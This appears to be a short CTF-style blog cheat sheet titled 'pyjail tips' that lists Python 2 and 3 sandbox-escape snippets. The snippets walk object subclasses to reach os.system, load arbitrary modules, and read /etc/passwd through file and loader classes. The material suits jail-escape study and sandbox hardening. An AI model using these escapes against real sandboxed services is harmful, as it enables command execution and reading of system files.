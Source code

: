 ```yaml
---
layout: post
title: pyjail tips
author: hOwDayS
---
```




<h1>발견할 때 마다 추가 예정</h1>

<h3>python2</h3>



__read file__

```python
file_path = '/etc/passwd'
print(sys.stderr.__class__(file_path).read())
print(sys.stdout.__class__(file_path).read())
print(sys.stdin.__class__(file_path).read())
```




<h3>python3</h3>



__import module__

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[69].load_module(module_name)
#<module 'os' (built-in)>
#<class '_frozen_importlib.BuiltinImporter'>
```



__run " os "__

```python
os_function_name = 'system'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__[os_function_name]
#<built-in function system>
#<class 'os._wrap_close'>
```



__run " from sys import modules " __

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__['sys'].modules[module_name]
#<module 'os' (built-in)>
#<built-in function system>
```



__read file__

```python
file_path = '/etc/passwd'
print(''.__doc__.__class__.__base__.__subclasses__()[79]('hOw','DayS').get_data(file_path))
#<class '_frozen_importlib_external.FileLoader'>
```

